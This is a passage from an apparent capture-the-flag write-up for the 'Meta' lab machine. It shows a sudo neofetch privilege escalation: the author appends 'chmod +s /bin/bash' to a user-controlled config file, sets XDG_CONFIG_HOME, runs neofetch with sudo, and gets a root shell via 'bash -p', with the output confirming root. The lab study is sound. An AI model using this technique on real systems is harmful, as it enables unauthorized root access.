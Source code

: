 ```bash

dynamic_prompt() {
    [[ $image_backend == off ]]   && { printf '\n'; return; }
    [[ $image_backend != ascii ]] && ((lines=(height + yoffset) / font_height + 1))
    [[ $image_backend == w3m ]] && ((lines=lines + padding / font_height + 1))

--
    [[ "$*" != *--config* ]] && get_user_config
...[snip]...
```

To abuse this we can simply append a command setting the suid bit on bash to the config file, export the `XDG_CONFIG_HOME` variable and run neofetch with sudo. Finally we can use the `-p` flag on bash to keep the suid permissions on our modified bash and add the root flag to our collection.

```
thomas@meta:/var/www/dev01.artcorp.htb/convert_images$ echo 'chmod +s /bin/bash' >> /home/thomas/.config/neofetch/config.conf; export XDG_CONFIG_HOME=/home/thomas/.config/; sudo /usr/bin/neofetch; bash -p
       _,met$$$$$gg.          root@meta
    ,g$$$$$$$$$$$$$$$P.       ---------
  ,g$$P"     """Y$$.".        OS: Debian GNU/Linux 10 (buster) x86_64
 ,$$P'              `$$$.     Host: VMware Virtual Platform None
',$$P       ,ggs.     `$$b:   Kernel: 4.19.0-17-amd64
`d$$'     ,$P"'   .    $$$    Uptime: 52 mins
 $$P      d$'     ,    $$P    Packages: 495 (dpkg)
 $$:      $$.   -    ,d$$'    Shell: bash 5.0.3
 $$;      Y$b._   _,d$P'      CPU: Intel Xeon Gold 5218 (2) @ 2.294GHz
 Y$$.    `.`"Y$$$$P"'         GPU: VMware SVGA II Adapter
 `$$b      "-.__              Memory: 154MiB / 1994MiB
  `Y$$
   `Y$$.
     `$$b.
       `Y$$b.
          `"Y$b._
              `"""

bash-5.0# id
uid=1000(thomas) gid=1000(thomas) euid=0(root) egid=0(root) groups=0(root),1000(thomas)
bash-5.0# wc -c /root/root.txt
33 /root/root.txt
```